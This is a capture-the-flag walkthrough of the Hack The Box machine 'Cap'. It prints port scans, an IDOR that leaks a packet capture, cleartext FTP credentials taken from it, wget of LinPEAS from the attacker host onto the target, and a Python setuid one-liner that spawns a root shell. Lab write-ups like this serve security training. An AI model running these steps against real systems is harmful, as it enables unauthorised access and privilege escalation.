




# HTB - Cap

#### Ip: 10.10.10.245
#### Name: Cap
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.245
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 12:52 CDT
Nmap scan report for 10.10.10.245
Host is up (0.075s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

Lets now scan these open ports using both the `-sV` and `-sC` flags to enumerate versions and to use basic scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ sudo nmap -sC -sV -T4 10.10.10.245 -p 21,22,80
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 12:56 CDT
Nmap scan report for 10.10.10.245
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa80a9b2ca3b8869a4289e390d27d575 (RSA)
|   256 96d8f8e3e8f77136c549d59db6a4c90c (ECDSA)
|_  256 3fd0ff91eb3bf6e19f2e8ddeb3deb218 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
```

Navigating to the site we see a security dashboard and we appear to be logged in a user Nathan.


Running a directory scan I find a few subdirectories:

```text
┌──(ryan㉿kali)-[~]
└─$ feroxbuster --url http://10.10.10.245 -q          
404      GET        4l       34w      232c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      389l     1065w    19386c http://10.10.10.245/
302      GET        4l       24w      208c http://10.10.10.245/data => http://10.10.10.245/
200      GET      355l     1055w    17446c http://10.10.10.245/ip
302      GET        4l       24w      220c http://10.10.10.245/capture => http://10.10.10.245/data/2
```

Interestingly, it looks like `/capture` is forwarding to `/data/2`. Lets check that out.



So looks like there is some packet capturing going on here, and I have the ability to download this .pcap file and inspect it.

After not finding anything interesting in `/2` I tested for an IDOR vulnerability navigated to `/0` and was able to download that file and open it in WireShark. This was a more robust file and after poking around a bit I found an FTP login from Nathan:




### Exploitation

nathan:Buck3tH4TF0RM3!

Cool, lets use these creds to login to FTP:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ ftp 10.10.10.245                                  
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:ryan): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||22185|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
-r--------    1 1001     1001           33 May 08 17:51 user.txt
226 Directory send OK.
```
Interesting, appears to be a `/home` directory. Lets grab the user.txt file, and then see what else we can do with these credentials:

```text
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||49021|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |********************************************************************************|    33       16.39 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.47 KiB/s)
ftp> bye
221 Goodbye.
```




Lets try using Nathan's credentials to login to SSH:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ ssh nathan@10.10.10.245                       
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)
```
Nice, that worked! Let's try to escalate privileges to root now.

### Privilege Escalation

After manually checking out the box for a bit, nothing jumped out at me, so I started a Python webserver and transferred over LinPeas to further enumerate a privesc vector:

```text
nathan@cap:/tmp$ wget http://10.10.14.11/linpeas.sh
--2023-05-08 18:18:46--  http://10.10.14.11/linpeas.sh
Connecting to 10.10.14.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                      100%[====================================================>] 758.76K  1.19MB/s    in 0.6s    

2023-05-08 18:18:47 (1.19 MB/s) - ‘linpeas.sh’ saved [776967/776967]

nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh
```

Linpeas quickly finds a potential path:



Cool, this should make for an easy privilege escalation. We can exploit the setuid capability by using:

```text
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/tmp# whoami
root
```
And just like that we have root!

Lets grab the final flag:


Thanks for following along!

-Ryan

----------------------------------------------------------------------------
